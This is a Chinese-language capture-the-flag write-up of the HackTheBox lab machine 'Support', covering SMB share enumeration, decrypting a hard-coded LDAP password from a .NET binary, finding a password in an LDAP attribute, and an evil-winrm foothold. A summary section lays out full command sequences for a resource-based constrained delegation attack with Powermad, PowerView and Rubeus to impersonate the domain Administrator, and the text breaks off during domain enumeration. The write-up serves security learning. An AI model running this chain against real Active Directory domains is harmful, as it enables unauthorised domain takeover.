




## Support
### 总结
```
总结

[★]$ smbclient \\\\10.129.230.181\\support-tools

  UserInfo.exe.zip                    
  windirstat1_1_2_setup.exe           
  WiresharkPortable64_3.6.5.paf.exe      

1.对  UserInfo.exe.zip   使用ILSpy的反编译，得到LDAP服务器进行身份验证的密码nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
2.使用ldapsearch实用程序
[★]$ sudo apt install ldap-utils

[★]$ ldapsearch -x -H ldap://support.htb \
-D "support\\ldap" \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b "dc=support,dc=htb" "(objectClass=*)"

得到info: Ironside47pleasure40Watchful

对  UserInfo.exe.zip 也可以使用Apache Directory Studio程序
[★]$ gunzip ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
[~/Downloads/ApacheDirectoryStudio][★]$ ./ApacheDirectoryStudio
结果同上 得到Info

3.进一步5985/tcp (WinRM)
[★]$ evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb                

*Evil-WinRM* PS C:\Users\support\Documents> Get-ADDomain //用来查询当前 Active Directory 域的基本信息；

*Evil-WinRM* PS C:\Users\support\Documents> whoami /groups
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103

4.
[★]$ sudo neo4j start
https://github.com/SpecterOps/BloodHound-Legacy/releases
[★]$ unzip BloodHound-linux-x64.zip

从远程收集数据在我们继续之前。为此，让我们继续在本地克隆BloodHound GitHub项目https://github.com/SpecterOps/BloodHound-Legacy
[★]$ git clone https://github.com/BloodHoundAD/BloodHound
[★]$ ls BloodHound/Collectors/
AzureHound.md  DebugBuilds  SharpHound.exe  SharpHound.ps1

*Evil-WinRM* PS C:\Users\support\Documents> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe
得到20260131001204_BloodHound.zip 
导入到 
[~/Downloads/BloodHound-linux-x64][★]$ ./BloodHound --no-sandbox --disable-gpu
由于GenericAll特权，我们可以执行基于资源的约束授权（RBCD）攻击并升级我们的特权
点击GenericAll的右键Help:
利用对“计算机对象(Computer Object)”拥有 GenericAll（完全控制）权限来进行攻击的方法，核心是：可以用来做 RBCD（Resource-Based Constrained Delegation，基于资源的约束委派）攻击
可以用 Rubeus 工具来利用这个权限进行攻击

如果你还没有“带 SPN 的账户”怎么办？
[1]如果你现在没有一个带 SPN 的账户（计算机账户默认就有 SPN），
你可以用 Powermad 工具 创建一个新的计算机账户（你控制的）：
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
创建一个叫 attackersystem$ 的计算机账户,密码是 Summer2018!
[2]然后获取这个新机器账户的 SID:
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
用 PowerView 查询 attackersystem$ 这个计算机账户
取出它的 SID（安全标识符）
把它写进目标计算机的：msDS-AllowedToActOnBehalfOfOtherIdentity
1. 用 Rubeus 发 S4U 请求
2. 冒充 Administrator 访问目标主机（RBCD）
 最终目标：以管理员身份访问另一台机器
5.工具和获取信息
*Evil-WinRM* PS C:\Users\support\Documents> upload PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload Powermad.ps1
https://github.com/Kevin-Robertson/Powermad
*Evil-WinRM* PS C:\Users\support\Documents> upload Rubeus.exe
https://github.com/GhostPack/Rubeus


*Evil-WinRM* PS C:\Users\support\Documents> Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota

*Evil-WinRM* PS C:\Users\support\Documents> . ./PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) 

*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer -identity FAKE-COMP01 
6.配置

*Evil-WinRM* PS C:\Users\support\Documents> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$

*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount

*Evil-WinRM* PS C:\Users\support\Documents> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity

*Evil-WinRM* PS C:\Users\support\Documents> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor

*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor.DiscretionaryAcl

得到SecurityIdentifier被设置为我们看到的FAKE-COMP01的SID将AceType设置为AccessAllowed

S4U攻击
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb

*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:FAKE-COMP01$
/rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

Rubeus成功地弄到了票
7.票据转换为Impacket可以使用的格式。这可以通过Impackets TicketConverter.py实现，以及要获取shell，我们可以使用Impackets的psexec.py

[★]$ git clone https://github.com/fortra/impacket.git
[★]$ ticketConverter.py ticket.kirbi ticket.ccache

[★]$ KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
```
[★]$ nmap 10.129.230.181 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-29 03:08 CST
Nmap scan report for 10.129.230.181
Host is up (0.0092s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-29 09:08:45Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-29T09:08:47
|_  start_date: N/A

[★]$ echo '10.129.230.181 support.htb' | sudo tee -a /etc/hosts
```
#### Nmap扫描显示了大量开放端口，其中大多数表明底层操作系统是Windows。的开放的端口有389 （LDAP）、636 （LDAPS）、445 （SMB）和5985（WinRM）。作为没有web服务器在任何端口上监听，因为这是一个Windows系统，让我们检查一下有任何开放的SMB共享可用。
#### Web 服务器不一定只在 80 / 443 端口上提供服务，它可以监听在“任何端口”上
```
[★]$ smbclient -L \\\\10.129.230.181\\
Password for [WORKGROUP\syareya55]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.230.181 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
#### 从可用的共享来看，support-tools似乎很有趣，因为它不是默认共享。让我们试着连接并列出可用文件。
```
[★]$ smbclient \\\\10.129.230.181\\support-tools
Password for [WORKGROUP\syareya55]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 12:01:06 2022
  ..                                  D        0  Sat May 28 06:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 06:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 06:19:55 2022
  putty.exe                           A  1273576  Sat May 28 06:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 06:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 12:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 06:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 06:19:43 2022

		4026367 blocks of size 4096. 959284 blocks available
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (2631.0 KiloBytes/sec) (average 2631.0 KiloBytes/sec)

smb: \> get WiresharkPortable64_3.6.5.paf.exe
getting file \WiresharkPortable64_3.6.5.paf.exe of size 44398000 as WiresharkPortable64_3.6.5.paf.exe (21222.4 KiloBytes/sec) (average 21222.4 KiloBytes/sec)

smb: \> get windirstat1_1_2_setup.exe
getting file \windirstat1_1_2_setup.exe of size 79171 as windirstat1_1_2_setup.exe (1227.2 KiloBytes/sec) (average 1227.2 KiloBytes/sec)

smb: \> exit
```
#### 实际上，我们能够匿名地连接到共享并列出可用的文件。该共享包含很少有应用程序安装程序，如putty或WireShark，但有一个文件脱颖而出。特别zip看起来不像是一个知名的应用程序。让我们将其下载到本地并进行研究进一步。
```
[★]$ unzip UserInfo.exe.zip
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config     
[★]$ file UserInfo.exe
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```
#### 检查“UserInfo.exe”的文件类型，发现它是一个。净可执行。因为我们使用的是Linux系统我们有两种方法。反编译可执行文件，看看它做什么或使用Wine尝试运行它。
### ILSpy
#### ILSpy的反编译. Net可执行文件，我们可以使用Avalonia ILspy，这是一个跨平台的版本在Linux上运行的ILSpy。首先让我们从发布页面下载它。
https://github.com/icsharpcode/AvaloniaILSpy
https://github.com/icsharpcode/AvaloniaILSpy/releases
```
[★]$ wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
[★]$ unzip Linux.x64.Release.zip
Archive:  Linux.x64.Release.zip
  inflating: ILSpy-linux-x64-Release.zip  
[★]$ unzip ILSpy-linux-x64-Release.zip

[★]$ uname -a
Linux htb-yjm93nlfxd 6.12.32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.32-1parrot1 (2025-06-27) x86_64 GNU/Linux
[★]$ ls artifacts/
linux-x64

[★]$ cd artifacts/linux-x64
[★]$  ./ILSpy  //开启 X11

```
#### 现在让我们加载UserInfo可执行文件，以便对其进行反编译。点击文件，选择打开，找到在文件浏览器中找到目标二进制文件并选择它。

#### 导入二进制文件后，ILSpy将负责反编译，我们将能够查看源代码。看一下代码，我们很快注意到一个名为LdapQuery的函数以及另外两个函数函数FindUser和GetUser。
#### 点击UserInfo.Services->LdapQuery
```
public LdapQuery()
	{
		//IL_0018: Unknown result type (might be due to invalid IL or missing references)
		//IL_0022: Expected O, but got Unknown
		//IL_0035: Unknown result type (might be due to invalid IL or missing references)
		//IL_003f: Expected O, but got Unknown
		string password = Protected.getPassword();
		entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
		entry.set_AuthenticationType((AuthenticationTypes)1);
		ds = new DirectorySearcher(entry);
	}
```
#### 点击UserInfo.Services->Protected
```
using System;
using System.Text;

internal class Protected
{
	private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

	private static byte[] key = Encoding.ASCII.GetBytes("armando");

	public static string getPassword()
	{
		byte[] array = Convert.FromBase64String(enc_password);
		byte[] array2 = array;
		for (int i = 0; i < array.Length; i++)
		{
			array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
		}
		return Encoding.Default.GetString(array2);
	}
}
```
#### 通过LDAP服务器进行身份验证的密码是从Protected.getPassword（）中获取的函数。
#### 密码似乎是用异或加密的。解密过程如下：enc密码字符串经过Base64解码并放入字节数组中。创建第二个名为array2的字节数组，其值与array相同。初始化一个循环，循环遍历数组中的每个字符，并用键的一个字母对其进行xor然后是字节0xDFu（223）。最后，返回解密后的密钥。
#### 让我们创建一个执行解密过程的Python脚本
```
[★]$ vi decrypt.py
[★]$ cat decrypt.py
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ key2)

print(res)
[★]$ python3 decrypt.py
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
#### 脚本打印出解密后的密码，我们可以继续连接到LDAP服务器进行收集信息。
### Wine
#### 确定UserInfo.exe功能的第二种方法是使用Wine，这是一个可以运行的应用程序在Linux系统上运行Windows应用程序。
```
[★]$ sudo apt install wine -y
err:mscoree:CLRRuntimeInfo_GetRuntimeHost Wine Mono is not installed //不适合装wine
```
#### 注意：二进制文件实际上是LDAP查询可注入的，但是，这只能通过Windows工作。上述失败可能是由于Wine是一个不完美的软件，并且在某个地方执行二进制文件失败，并且无法识别名称。我们知道二进制连接到并以某种方式进行身份验证，因此让我们启动WireShark并捕获网络流量，看看我们是否可以获取用于身份验证的用户名和密码。启动WireShark，开始抓包tun0接口。然后运行二进制文件

#### 在WireShark中捕获LDAP认证，单击bindRequest包会显示正在使用用户名和密码组合。具体来说，我们可以导航到轻量级目录访问协议，打开protocolOp，然后打开bindRequest以确定用户名支持\ldap。最后，我们可以选择身份验证来查看密码nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz。LDAP身份验证是在WireShark中捕获的，单击bindRequest包会显示正在使用用户名和密码组合。具体来说，我们可以导航到轻量级目录访问协议
```
1️⃣ 打开 Wireshark
2️⃣ 选 tun0
3️⃣ 过滤：tcp.port == 389
4️⃣ 运行：wine UserInfo.exe
5️⃣ 找 bindRequest
6️⃣ 看 authentication
```
#### 最终是为了验证密码，同上的，Wireshark使用不成功，同wine。
### Foothold
#### 获得上述凭据之后，让我们连接到LDAP服务器，看看是否可以找到任何凭据有趣的信息。要连接，我们可以使用ldapsearch实用程序。让我们来安装它。
```
[★]$ sudo apt install ldap-utils
```
#### 安装好实用程序之后，让我们尝试使用ldap@support.htb作为对象绑定到LDAP服务器BindDN带有-D标志，并指定support和hth作为带有-b标志的域组件。
```
//第一步：测试能否 bind
[★]$ ldapsearch -x -H ldap://support.htb \
-D "support\\ldap" \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b "dc=support,dc=htb" "(objectClass=*)"

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful  //这里密码
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z

----------------------
//第二步：查管理员
[★]$ ldapsearch -x -H ldap://support.htb \
-D "support\\ldap" \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b "dc=support,dc=htb" "(sAMAccountName=Administrator)"
# extended LDIF
#
# LDAPv3
# base <dc=support,dc=htb> with scope subtree
# filter: (sAMAccountName=Administrator)
# requesting: ALL
#

# Administrator, Users, support.htb
dn: CN=Administrator,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Administrator
description: Built-in account for administering the computer/domain
distinguishedName: CN=Administrator,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528110156.0Z
whenChanged: 20260129090309.0Z
uSNCreated: 8196
memberOf: CN=Group Policy Creator Owners,CN=Users,DC=support,DC=htb
memberOf: CN=Domain Admins,CN=Users,DC=support,DC=htb
memberOf: CN=Enterprise Admins,CN=Users,DC=support,DC=htb
memberOf: CN=Schema Admins,CN=Users,DC=support,DC=htb
memberOf: CN=Administrators,CN=Builtin,DC=support,DC=htb
uSNChanged: 90151
name: Administrator
objectGUID:: ltGa4T+PO0uTHnjAEEcLlw==
userAccountControl: 512

----------------------
//第三步：枚举所有用户
[★]$ ldapsearch -x -H ldap://support.htb \
-D "support\\ldap" \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b "dc=support,dc=htb" "(objectClass=user)" sAMAccountName
```
#### 当连接到LDAP服务器时，BindDN可以被视为一种用户名或帐户我们连接到LDAP服务器，并提供查看和编辑LDAP服务器中的对象的权限。另一方面，域组件可以被认为是LDAP中的目录结构。他们是从右到左读取并指示服务器在哪里查找以及为我们获取哪些对象。在这种情况下我们指示服务器转到HTB域组件，找到支持域组件和然后以Administrator的名称搜索其中的任何对象。上面的命令返回
### Apache Directory Studio
#### 除了ldapsearch，我们还可以使用Apache Directory Studio程序，它可以从这里下载。它提供了一个图形界面，可以用来更有效地查看LDAP数据。下载并在本地运行它
https://directory.apache.org/studio/
```
[★]$ gunzip ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
[~/Downloads][★]$ ls
 ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar
[~/Downloads][★]$ tar -xvf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar
[★]$ cd ApacheDirectoryStudio
[~/Downloads/ApacheDirectoryStudio][★]$ ls
ApacheDirectoryStudio      artifacts.xml  features  LICENSE  p2
ApacheDirectoryStudio.ini  configuration  icon.xpm  NOTICE   plugins
[~/Downloads/ApacheDirectoryStudio][★]$ ./ApacheDirectoryStudio
```
#### 接下来，让我们通过单击屏幕左上角的LDAP按钮来添加到LDAP服务器的连接。
#### LDAP --> New Connetction

#### 输入Support作为连接名称，支持。作为主机名，然后单击Next
```
Bind DN or suer: ldap@support.htb
Bind password:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz  //Ctrl+V
点击Finish
```
#### 在下一个窗口中，确保选择Simple Authentication作为身份验证方法，以“ldap@support.htb”为绑定DN，并粘贴密码为“nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz”在绑定密码字段中。然后单击检查身份验证按钮，以确保一切能正常工作
#### 回到Apache Directory Studio实用程序的主屏幕，我们可以在左下角。双击它将允许我们连接到远程LDAP服务器并列出所有LDAP对象。
```
//会出现的问题,连接超时
Error while opening connection
 -  MSG_04177_CONNECTION_TIMEOUT (5000)
org.apache.directory.studio.connection.core.io.StudioLdapException:  MSG_04177_CONNECTION_TIMEOUT (5000)

 MSG_04177_CONNECTION_TIMEOUT (5000)

安装官方文档的下一步是：在打开DC=support，DC=htb之后，我们注意到一个具有Common Name of users的对象。这个对象包含远程计算机上的所有系统用户。让我们打开它，进一步列举。
在文件夹CN=support  -->’Attribute Description‘:info有密码

同上比较：
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful  //这里密码

info 字段本来常见内容应该是：
“IT Support Account”
“Temporary account”
“Helpdesk user”
```
#### 在用户列表中，有一个似乎很突出，叫做“support”。查看这个用户的属性，我们发现a非默认标签名为info，值为Ironside47pleasure40Watchful。这看起来很像密码。再往下看，我们还可以看到该用户是Remote Management Users的成员组，允许它们通过WinRM进行连接。为此，让我们尝试使用evil-winrm来连接使用已识别的密码远程联系支持用户。
#### 5985/tcp (WinRM)
```
[★]$ evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents> cat ../Desktop/user.txt
```
### Privilege Escalation
#### Nmap输出已经向我们揭示了机器属于一个域。我们可以得到更多通过通常预安装的Active Directory powershell模块获取域信息在域控制器上。
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADDomain //用来查询当前 Active Directory 域的基本信息；它来自模块：ActiveDirectory（RSAT）


AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=support,DC=htb
DeletedObjectsContainer            : CN=Deleted Objects,DC=support,DC=htb
DistinguishedName                  : DC=support,DC=htb
DNSRoot                            : support.htb	//域名，之后用 -d support.htb
DomainControllersContainer         : OU=Domain Controllers,DC=support,DC=htb
DomainMode                         : Windows2016Domain		//2016,安全特性级别
DomainSID                          : S-1-5-21-1677581083-3380853377-188903654
